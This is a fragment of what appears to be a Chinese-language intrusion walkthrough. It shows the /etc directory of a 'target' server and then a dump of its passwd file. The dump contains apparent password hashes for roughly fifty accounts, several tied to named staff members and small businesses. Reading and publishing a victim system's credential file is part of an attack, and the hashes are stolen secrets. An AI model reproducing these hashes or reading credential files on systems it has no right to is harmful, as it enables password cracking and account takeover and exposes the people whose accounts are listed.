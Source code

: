 ```bash
group nntpserver vga/
host.conf passwd wtmp@
hosts passwd.OLD yp.conf.example
hosts.allow passwd.old
hosts.deny ppp/
```

(看看我们的目标长得如何???)
```bash
www:/etc$ cat passwd
root:abcdefghijklmn:0:0:root:/root:/bin/bash
bin:*:1:1:bin:/bin:
daemon:*:2:2:daemon:/sbin:
adm:*:3:4:adm:/var/adm:
lp:*:4:7:lp:/var/spool/lpd:
sync:*:5:0:sync:/sbin:/bin/sync
shutdown:*:6:0:shutdown:/sbin:/sbin/shutdown
halt:*:7:0:halt:/sbin:/sbin/halt
mail:*:8:12:mail:/var/spool/mail:
news:*:9:13:news:/usr/lib/news:
uucp:*:10:14:uucp:/var/spool/uucppublic:
operator:*:11:0:operator:/root:/bin/bash
games:*:12:100:games:/usr/games:
man:*:13:15:man:/usr/man:
postmaster:*:14:12:postmaster:/var/spool/mail:/bin/bash
nobody:*:-1:100:nobody:/dev/null:
ftp:*:404:1::/home/ftp:/bin/bash
guest:*:405:100:guest:/dev/null:/dev/null
shan:Ca3LGA8gqDV4A:501:20:Shan Huang:/home/staff/shan:/bin/bash
www:/U5N5/l0B.jWo:502:20:WWW Manager:/home/staff/www:/bin/bash
test:aFoIbr40sdbiSw:503:100:test:/home/test:/bin/bash
fax:aHhi5ZoJwWOGtc:504:100:FAX_SERVICE:/home/staff/fax:/bin/bash
women:IiO94G5YrrFfU:505:100:Perfect Women:/home/w3/women:/bin/bash
kanglin:aMjy/8maF4ZPHA:506:100:Kanglin:/home/w3/kanglin:/bin/bash
coffee:AlwDa18Au9IPg:507:100:Coffee:/home/w3/coffee:/bin/bash
bakery:aFm7GUGCuyfP2w:508:100:Bakery:/home/w3/bakery:/bin/bash
carven:aPaqr3QAdw8zbk:509:100:Carven:/home/w3/carven:/bin/bash
haurey:/2m87VjXC742s:510:100:Haurey:/home/w3/haurey:/bin/bash
prime:nPOlsQhQFJ.aM:511:100:Prime:/home/w3/prime:/bin/bash
tham:H2AOlPozwIIuo:512:100:xxxxxxxxxx:/home/w3/tham:/bin/bash
ccc:aFiKAE2saiJCMo:513:100:ccc:/home/w3/ccc:/bin/bash
sk:UPrcTmnVSkd3w:514:100:sk:/home/sk:/bin/bash
services:9yBqHWfnnNr.k:515:100:xxxx:/home/w3/haurey/services:/bin/bash
order:LpnMHVjy9M/YU:516:100:xxxx:/home/w3/haurey/order:/bin/bash
corey:mhRsFO60hFsMU:517:100:xxxx:/home/w3/haurey/corey:/bin/bash
richard:EmUWnU6Bj7hQI:519:100:richard:/home/w3/richard:/bin/bash
lilian:Opx5xwctJTO1A:520:100:lilian:/home/w3/lilian:/bin/bash
support:JdOqvTZqdZ9wQ:521:100:support:/home/w3/support:/bin/bash
hotline:BiSzCJsDhVl7c:522:100:hotline:/home/w3/hotline:/bin/bash 
stonny:/UNPsb9La4nwI:523:20::/home/staff/stonny:/bin/csh
bear:w/eF/cZ32oMho:524:100:bear:/home/w3/bear:/bin/bash
lance:Pf7USG6iwgBEI:525:20:Chien-chia Lan:/home/staff/lance:/bin/tcsh
taiwankk:ijPWXFmRF79RY:526:100:hotline:/home/w3/taiwankk:/bin/bash
service:ulfWaOzIHC.M.:527:100:prime service:/home/w3/service:/bin/bash
liheng:6hGixt6Kgezmo:528:100:prime liheng:/home/w3/liheng:/bin/bash
caves:RyvviMcWTTRnc:529:100:gallery:/home/w3/caves:/bin/bash
sales:CmtV4FZsBIPvQ:518:100:prime:/home/w3/prime/sales:/bin/bash
kingtel:8E7f0PIQWfCmQ:530:100:kingtel:/home/w3/kingtel:/bin/bash
recycle1:JgbZHVRE4Jf3U:531:100:recycle1:/home/w3/recycle1:/bin/bash
recycle2:Qg85xgdnsqJYM:532:100:recycle2:/home/w3/recycle2:/bin/bash
recycle3:XhyoUBFQspiS2:533:100:recycle3:/home/w3/recycle3:/bin/bash
recycle:109mNZYIZtNEM:534:100:recycle:/home/w3/recycle:/bin/bash
hxnet:KhB./jHw.XNUI:536:100:hxnet:/home/w3/hxnet:/bin/bash
goodbook:MlD0tx.urQMYc:535:100:goodbook:/home/w3/goodbook:/bin/bash
```